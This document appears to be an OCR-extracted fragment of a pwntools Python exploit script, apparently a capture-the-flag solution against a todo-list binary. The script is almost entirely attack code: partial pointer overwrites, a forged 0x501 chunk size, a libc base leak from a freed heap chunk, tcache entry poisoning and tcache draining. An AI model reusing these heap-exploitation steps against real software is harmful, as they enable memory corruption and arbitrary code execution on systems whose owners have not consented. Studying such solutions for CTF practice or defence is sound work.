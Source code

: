 ```python
    create_todo(7, b"A", b"A")
    

    payload = p64(heap_base + 0x430)[:2]
    print(payload)
    create_todo(0, b"\n", b"[["+ b"A"*0x10+ payload + b"||")    
    complete_todo(0)

    # dummy todo for complete_cnt
    create_todo(1, b"A", b"B")
    complete_todo(1)
    create_todo(1, b"A", b"B")
    complete_todo(1)

    load_todo(4, 0)


    size = 0x501
    edit_todo(0, p64(0) + p64(size))

    for i in range(0x500//0x20):
        create_todo(3, b"A", p64(0) + p64(0x21))


    payload = p64(heap_base + 0x440)[:2]
    print(payload)
    create_todo(0, b"\n", b"[["+ b"A"*0x10+ payload + b"||")    
    complete_todo(0)

    # dummy todo for complete_cnt
    for i in range(3):
        create_todo(1, b"A", b"B")
        complete_todo(1)

    load_todo(8, 0)
    delete_todo(0)
    read_todo(7)
    p.recvuntil(b"Desc : ")
    libc_base = u64(p.recvn(6).ljust(8, b"\x00")) - 0x203b20
    log.info(f"libc_base: {hex(libc_base)}")


    ## overwrite tcache->entry
    payload = p64(heap_base + 0x480)[:2]
    print(payload)
    create_todo(0, b"\n", b"[["+ b"A"*0x10+ payload + b"||")    
    complete_todo(0)

    # dummy todo for complete_cnt
    for i in range(4):
        create_todo(1, b"A", b"B")
        complete_todo(1)
    load_todo(13, 0)


    ## empty tcache
    for i in range(7):
        load_todo(2, 7)
    create_todo(6, b"A", b"B")
    create_todo(7, b"A", b"B")
    delete_todo(6)
    delete_todo(7)

```